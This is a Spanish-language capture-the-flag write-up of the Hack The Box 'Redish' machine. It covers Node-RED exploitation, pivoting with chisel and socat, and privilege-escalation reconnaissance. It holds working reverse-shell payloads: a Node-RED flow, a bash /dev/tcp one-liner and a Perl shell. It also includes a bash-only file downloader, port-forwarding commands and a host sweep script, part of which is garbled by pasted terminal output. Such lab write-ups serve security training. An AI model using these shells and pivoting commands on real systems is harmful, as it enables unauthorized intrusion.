 # Redish

## NMAP

![image](https://github.com/gecr07/RedishHTB/assets/63270579/325411cf-e1b7-49a2-b667-067b49606bb8)

![image](https://github.com/gecr07/RedishHTB/assets/63270579/911975ed-cde7-47ac-8df7-904c60b548c9)

Ahora (no hubiera sabido como la verdad) visitamos el link.

> http://10.10.10.94:1880/red/e72c52ec2ba93670b5b9fcc018afcdff

![image](https://github.com/gecr07/RedishHTB/assets/63270579/e38e48cf-9265-49b5-a93c-1bd6a15f2ffb)

Para la shell reversa se usa:

```
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.14.126","port":"9999","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]

```

Una vez dentro pues nos damos cuenta que la shell esta muy precaria ( y asi lo hacen todos los writes que he visto nos mandamos otro shell


```
[object Object]bash -c "bash -i >& /dev/tcp/10.10.14.28/1234 0>&1"
```

![image](https://github.com/gecr07/RedishHTB/assets/63270579/484e0234-1c4e-4ba5-b818-23bd4fb61d5a)

Descubrimiento de puertos.

```
#!/bin/bash                                                                                                           │    for i in $(seq 1 254); do
                                                                                                                      │        bash -c "ping -c 1 $networks.$i" &>/dev/null && echo -e "\t[+] Host $network.$i -ACTIVE" &
echo "Hola estoy dentro"                                                                                              │        echo "Estoy dentro del for interno Funciona..."
                                                                                                                      │
networks=(172.19.0 172.18.0)                                                                                          │    done; wait 
                                                                                                                      │
                                                                                                                      │done; tput cnorm
                                                                                                                      │
for  network in ${networks[@]}; do                                                                                    │
echo "[+] Estoy escaneo  la red $network.0/24"                                                                        │
for i in $(seq 1 254); do                                                                                             │
                                                                                                                      │                                                                                                                     
        timeout 1 bash -c "ping -c 1  $network.$i" &>/dev/null && echo " [+] La ip $network.$i -ACTIVE" &             │┌──(kali㉿kali)-[~/RedishHTB/content]
                                                                                                                      │└─$ 
done;wait                                                                                                             │
done                                                                                                                  │
                                                                                                                      │
echo "Este es el final" 
```

## Alternativa

O bien si queremos subir el nmap y no existe nada no hay nc no python no wget no curl existen funciones de wget y curl que permiten descargar incluso archivos creadas completamente con bash.

> https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et

```
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http\n" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r\nHost: %s\r\n\r\n' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```


Su uso 

```
__curl http://IP/archivo > archivo

```

# Compilar y bajar de peso el chisel

![image](https://github.com/gecr07/RedishHTB/assets/63270579/847ec256-cfc7-4250-a480-2e1d89d641af)

```
go build .
du -hc chisel # Pesa 12 MB
sudo go build -ldflags "-s -w" .
sudo upx chisel 
du -hc chisel # pesa 3 MB!!!

```

## CHISEL PortForwarding

Entonces chisel funciona asi la maquina Kali va a ser el servidor y la maquina victima e cliente.


Cliente (victima)
```
./chisel client 10.10.14.11:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6373

chisel client IPKALI:1234 R:80:IP_adondequeremosllegar:80
                          El puerto 80 de este equipo se convierta en el puerto 80 de mi equipo.
Y no acaba ahi puedes meterle multiples puertos

chisel client IPKALI:1234 R:80:IP_adondequeremosllegar:80 R:6379:172.19.0.2:6379
Lo ulitmo le dice el puerto 6379 de la ip quiero que se convierta en el puero 6379 de mi computadora.
```

Servidor (Kali)
```
chisel server --reverse -p 1234
```

Y lo magico es que entonces puedes escanear con nmap porque entonces ahora nada mas especifica el puerto

```
nmap -sCV -p6379 127.0.0.1 
```


![image](https://github.com/gecr07/RedishHTB/assets/63270579/1090c4b9-0272-4897-afca-29f4885cb455)


Ahora en la pagina que encontramos encontramos rutas. ( por lo menos S4vitar de pregunto y si esas rutas estan dentro de /var/www/html/ruta y asi fue el razonamiento)

![image](https://github.com/gecr07/RedishHTB/assets/63270579/9253e88b-d334-4f05-ad47-58d2a963f556)

Entonces vamos a hacktricks y leemos que existe una manera de lograr RCE.

## PIVOTING (sotcat)


```

Nodered ( hostname)

eth0  (interfaz de Nodered) 172.18.0.2/16

        [+] Host 172.18.0.2 -ACTIVE <- (Nodered) [PWNED]
               [+] Port 1880 - OPEN
        [+] Host 172.18.0.1 -ACTIVE <- Maquina Host
               [+] Port 1880 - OPEN


eth1 (interfaz de Nodered) 172.19.0.4/16

      [+] La ip 172.19.0.4 -ACTIVE <- (Nodered) [PWNED] -> 1111 -> ./socat TCP-LISTEN:1111,fork TCP:10.10.14.11:2222 &

               [+] Port 1880 - OPEN
      [+] La ip 172.19.0.3 -ACTIVE (hints) == Tenenmos ejecucion de comandos mediante web shell (pero no podemos tener conectividad con Kali solo la IP del segmento)
               [+] Port 80 - OPEN
      [+] La ip 172.19.0.2 -ACTIVE ( redis) ==
               [+] Port 6379 - OPEN


      [+] La ip 172.19.0.1 -ACTIVE <- Maquina Host

```

Entonces tenemos la  172.19.0.4 PWNED desde el incio y logramos comand execution en la 172.19.0.3 ( que a su vez tiene ips nuevas que no habiamos visto osea alcanza otras redes). Ahora lo que vamos a hacer para poder
seguir es mandarnos una reverse shell a la  172.19.0.4 (que si tiene conectividad porque estan en el mismo segmento) OJO y es aqui donde pusimos el SOTCAT que redirige todo el trafico del puerto 1111 a la IP_KALI por el 
puerto 2222 y bum tenemos una shell en Kali y ahora podemos alzar otras redes.

Cabe destacar que tomamos un binario estatico del mismo repo del nmap este:

> https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

```
./socat TCP-LISTEN:1111,fork TCP:10.10.14.11:2222 & #Por cierto que dejamos corriendo en segundo plano

```
A y para la shell usamos una de perl y pusimos %26 en lugar de & (url encode) para que no nos diera problemas.

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image](https://github.com/gecr07/RedishHTB/assets/63270579/2f00b438-928b-4ea7-9d01-eb32cc1f5671)

Esta es la Ip que nosotros veiamos 172.19.0.3 y en la imagen puedes ver que hay otra de otro segmento escondido para nosotros.



Ahora no se puede hacer nada ni ver la flag asi que necesitamos escalar privilegios usamos:

```
#!/bin/bash

old_process=$(ps -eo command)


while true; do 
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "command|procmon"
        old_process=$new_process
done

```



















































































